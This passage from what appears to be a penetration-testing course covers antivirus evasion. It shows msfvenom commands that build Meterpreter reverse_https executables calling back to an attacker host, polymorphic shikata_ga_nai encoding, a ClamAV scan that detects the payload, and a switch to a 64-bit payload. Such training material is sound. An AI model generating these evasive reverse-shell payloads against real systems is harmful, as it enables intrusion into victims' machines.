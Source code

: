 > Listing 16 - Listing msfvenom encoders

The _x86/shikata_ga_nai_ encoder (highlighted above) is a commonly-used polymorphic encoder[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5134-1) that produces different output each time it is run, making it effective for signature evasion.

We'll enable this encoder with the -e option, supplying the name of the encoder as an argument, and we'll supply the other typical options as shown in Listing 17:

```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
...
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 635 (iteration=0)
x86/shikata_ga_nai chosen with final size 635
Payload size: 635 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/met.exe
```

> Listing 17 - Encoding with x86/shikata_ga_nai

Since the assembly code has been obfuscated, we'll copy the generated executable to our Windows 10 victim machine and scan it with ClamAV as shown in Listing 18.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\met.exe
C:\Tools\met.exe: Win.Trojan.Swrort-5710536-0 FOUND
...
```

> Listing 18 - Scanning encoded executable with ClamAV

Based on the output above, ClamAV detected the encoded shellcode inside the executable. This failed because the encoded shellcode must be decoded to be able to run and this requires a decoding routine. This decoding routine itself is not encoded, meaning it is static each time, making the decoder itself a perfect target for signature detection.

Let's try a different approach. Since 64-bit applications have only become popular in recent years, it stands to reason that 64-bit malware and payloads are less common. Perhaps this relative rarity will provide us an advantage.

To test this theory, let's generate a 64-bit Meterpreter without encoding:

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/met64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 741 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met64.exe
```

> Listing 19 - Generating a 64-bit Meterpreter executable
